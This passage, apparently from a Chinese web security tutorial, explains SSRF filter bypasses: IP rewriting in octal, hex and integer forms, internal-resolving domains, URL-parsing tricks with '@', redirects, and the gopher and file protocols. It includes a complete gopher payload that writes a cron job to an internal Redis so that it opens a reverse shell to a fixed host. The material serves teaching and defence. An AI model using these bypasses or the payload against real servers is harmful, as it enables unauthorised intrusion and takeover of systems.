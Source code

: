 SSRF 涉及到的危险函数主要是网络访问，支持伪协议的网络读取。以 PHP 为例，涉及到的函数有
file_get_contents() / fsockopen() / curl_exec() 等。

**4.4 过滤绕过**

1.更改IP地址写法

一些开发者会通过对传过来的 URL 参数进行正则匹配的方式来过滤掉内网 IP，如采用如下正则表达式：
•` ^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$`
• `^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$`
• `^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$`
对于这种过滤我们采用改编 IP 的写法的方式进行绕过，例如 192.168.0.1 这个 IP 地址可以被改写成：
• 8 进制格式：0300.0250.0.1
• 16 进制格式：0xC0.0xA8.0.1
• 10 进制整数格式：3232235521
• 16 进制整数格式：0xC0A80001

• 合并后两位：1.1.278 / 1.1.755
• 合并后三位：1.278 / 1.755 / 3.14159267
另外 IP 中的每一位，各个进制可以混用。
访问改写后的 IP 地址时，Apache 会报 400 Bad Request，但 Nginx、MySQL 等其他服务仍能正常工作。
另外，0.0.0.0 这个 IP 可以直接访问到本地，也通常被正则过滤遗漏。

2.使用解析到内网的域名

如果服务端没有先解析 IP 再过滤内网地址，我们就可以使用 localhost 等解析到内网的域名。
另外 xip.io 提供了一个方便的服务，这个网站的子域名会解析到对应的 IP，例如 192.168.0.1.xip.io，解析到 192.168.0.1。

3.利用解析URL所出现的问题

在某些情况下，后端程序可能会对访问的 URL 进行解析，对解析出来的 host 地址进行过滤。这时候可能会出现对 URL 参数解析不当，导致可以绕过过滤。
比如http://www.baidu.com@192.168.0.1/ 当后端程序通过不正确的正则表达式（比如将http 之后到com为止的字符内容，也就是 www.baidu.com，认为是访问请求的 host 地址时）对上述 URL 的内容进行解析的时候，很有可能会认为访问 URL 的 host 为 www.baidu.com，而实际上这个 URL 所请求的内容都是192.168.0.1 上的内容

4.利用跳转

如果后端服务器在接收到参数后，正确的解析了 URL 的 host，并且进行了过滤，我们这个时候可以使用跳转的方式来进行绕过。
可以使用如 http://httpbin.org/redirect-to?url=http://192.168.0.1 等服务跳转，但是由于 URL 中包含了192.168.0.1 这种内网 IP 地址，可能会被正则表达式过滤掉，可以通过短地址的方式来绕过。
常用的跳转有 302 跳转和 307 跳转，区别在于 307 跳转会转发 POST 请求中的数据等，但是 302 跳转不会。

5.通过各种非HTTP协议

如果服务器端程序对访问 URL 所采用的协议进行验证的话，可以通过非 HTTP 协议来进行利用。
比如通过 gopher，可以在一个 url 参数中构造 POST 或者 GET 请求，从而达到攻击内网应用的目的。例如可以使用 gopher 协议对与内网的 Redis 服务进行攻击，可以使用如下的 URL

```
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1* * * * bash -i >& /dev/tcp/172.19.23.228/23330>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a
```

除了gopher协议，File协议也是SSRF中常用的协议，该协议主要用于访问本地计算机中的文件，我们可以通过类似 `file:///path/to/file` 这种格式来访问计算机本地文件。使用file协议可以避免服务端程序对于所访问的IP进行的过滤。例如我们可以通过 `file:///d:/1.txt` 来访问D盘中1.txt的内容。
